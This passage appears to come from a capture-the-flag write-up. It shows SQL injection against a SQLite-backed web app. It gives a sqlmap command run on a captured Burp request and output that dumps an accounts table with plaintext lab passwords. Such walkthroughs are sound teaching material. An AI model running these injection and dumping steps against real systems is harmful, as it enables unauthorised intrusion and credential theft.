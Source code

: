 Using version enumeration, we can find that this uses SQLite.

<figure><img src="../../.gitbook/assets/image (2) (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tossed this Burp request to `sqlmap`, which also gives me a true positive.

```bash
sqlmap -r req -p id --level 5 --risk 3 --dbms sqlite
```

<figure><img src="../../.gitbook/assets/image (10) (10) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can enumerate the database and dump the passwords within the database.

```
[2 tables]
+----------+
| accounts |
| messages |
+----------+

Table: accounts
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| username | TEXT |
+----------+------+

Table: accounts
[2 entries]
+----------+------------------------+
| username | password               |
+----------+------------------------+
| admin    | admin                  |
| sau      | HereIsYourPassWord1431 |
+----------+------------------------
```